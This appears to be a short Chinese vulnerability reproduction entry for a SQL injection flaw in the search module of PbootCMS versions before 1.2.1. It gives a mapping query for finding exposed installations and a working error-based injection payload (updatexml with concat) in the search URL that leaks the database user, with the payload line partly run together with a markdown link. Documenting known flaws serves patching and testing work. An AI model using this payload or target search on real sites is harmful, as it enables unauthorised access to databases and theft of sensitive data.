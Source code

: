 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## 网络测绘 

```
app="PBOOTCMS"
```

## 漏洞复现

搜索框页面为

![](images/202202170924485.png)Payload为

```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```

![](images/202202170924075.png)